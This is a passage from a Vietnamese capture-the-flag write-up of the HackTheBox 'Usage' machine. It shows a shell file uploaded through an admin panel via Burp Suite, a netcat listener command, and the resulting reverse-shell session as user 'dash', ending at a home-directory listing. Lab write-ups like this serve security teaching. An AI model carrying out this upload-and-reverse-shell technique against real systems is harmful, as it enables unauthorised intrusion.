 Upload ảnh này lên admin pannel (tích vào ô "Continue creating") và bật Intercep: ON trên **burpsuite** để thực hiện upload

![seven](/assets/img/2024-05-03-HTB-Usage/7.jpg)

Bật listener : `nc -lnvp 9001`

Truy cập vào url `admin.usage.htb/uploads/images/` và thêm tên file shell vừa upload thành công vào cuối

```python
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.150] from (UNKNOWN) [10.10.11.18] 36368
bash: cannot set terminal process group (1227): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/var/www/html/project_admin/public/uploads/images$ id
id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
dash@usage:/var/www/html/project_admin/public/uploads/images$ 
```

## User.txt

```python
dash@usage:/var/www/html/project_admin/public/uploads/images$ cd
cd
dash@usage:~$ ls -la
ls -la
total 248
drwxr-x--- 6 dash dash   4096 May  7 08:48 .
drwxr-xr-x 4 root root   4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root      9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash   3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash   4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash   4096 Aug 20  2023 .config
drwxrwxr-x 3 dash dash   4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash     32 Oct 26  2023 .monit.id
-rw-r--r-- 1 dash dash      5 May  7 08:48 .monit.pid
-rw------- 1 dash dash   1192 May  7 08:48 .monit.state
-rwx------ 1 dash dash    707 Oct 26  2023 .monitrc
```